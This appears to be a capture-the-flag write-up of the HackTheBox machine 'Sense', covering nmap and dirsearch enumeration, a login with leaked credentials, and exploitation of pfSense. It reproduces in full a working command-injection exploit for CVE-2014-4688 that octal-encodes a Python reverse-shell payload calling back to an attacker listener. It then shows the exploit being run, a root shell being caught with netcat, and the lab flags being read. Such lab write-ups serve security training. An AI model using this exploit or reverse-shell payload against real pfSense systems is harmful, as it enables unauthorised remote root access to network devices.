




# Exploitation

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.60
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-04 20:44 +08
Nmap scan report for 10.10.10.60
Host is up (0.0034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), FreeBSD 8.X (85%), OpenBSD 4.X (85%)
OS CPE: cpe:/o:freebsd:freebsd:8.1 cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: Comau C4G robot control unit (92%), FreeBSD 8.1 (85%), OpenBSD 4.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   3.53 ms 10.10.14.1
2   3.55 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds

```

It seems like there is a website, let’s check it out!



Trying the default credentials `admin:pfsense` did not work :(

Let’s run a `dirsearch` then!

>   Note: was stuck here for awhile because the important file was hidden in a `txt` file

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# dirsearch -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -e txt, php

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: txt,  | HTTP method: GET | Threads: 30 | Wordlist size: 882180

Output File: /root/.dirsearch/reports/10.10.10.60/_22-03-04_21-00-28.txt

Error Log: /root/.dirsearch/logs/errors-22-03-04_21-00-28.log

Target: https://10.10.10.60/

[21:00:28] Starting: 
[21:00:29] 301 -    0B  - /themes  ->  https://10.10.10.60/themes/
[21:00:32] 301 -    0B  - /css  ->  https://10.10.10.60/css/
[21:00:32] 301 -    0B  - /includes  ->  https://10.10.10.60/includes/
[21:00:35] 301 -    0B  - /javascript  ->  https://10.10.10.60/javascript/
[21:00:37] 200 -  271B  - /changelog.txt
[21:00:38] 301 -    0B  - /classes  ->  https://10.10.10.60/classes/
[21:00:41] 301 -    0B  - /widgets  ->  https://10.10.10.60/widgets/
[21:00:54] 200 -    7KB - /tree/
[21:00:54] 301 -    0B  - /tree  ->  https://10.10.10.60/tree/
[21:01:10] 301 -    0B  - /shortcuts  ->  https://10.10.10.60/shortcuts/
[21:01:27] 301 -    0B  - /installer  ->  https://10.10.10.60/installer/
[21:01:27] 302 -    0B  - /installer/  ->  installer.php
[21:01:37] 301 -    0B  - /wizards  ->  https://10.10.10.60/wizards/
[21:09:19] 301 -    0B  - /csrf  ->  https://10.10.10.60/csrf/
[21:18:25] 200 -  106B  - /system-users.txt
[21:21:06] 301 -    0B  - /filebrowser  ->  https://10.10.10.60/filebrowser/
[21:29:05] 403 -  345B  - /%7Echeckout%7E

Task Completed

```

It seems like there were some interesting `txt` files called `changelog.txt` and `system-users.txt`!



It seems to say that there are 2 of 3 vulnerabilities that were patched.



We got some credentials to work on! Let’s try logging in!

>   Note: it turns out the credentials were actually `rohit:pfsense` instead of `Rohit:company defaults`



The most important information here is probably the version number, so let’s do some research :D

# Exploitation

After some Google searches, I found that the version has a command injection vulnerability listed on [ExploitDB](https://www.exploit-db.com/exploits/43560).

Let’s grab the script using `searchsploit`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sense]
└─# searchsploit -m 43560
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable

Copied to: /home/shiro/HackTheBox/Sense/43560.py

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sense]
└─# cat 43560.py  
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")  
```

Let’s start a netcat listener and exploit!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sense]
└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.3 --lport 1234 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.60] 16918
sh: can't access tty; job control turned off
# whoami 
root
# cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b 
# cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
```


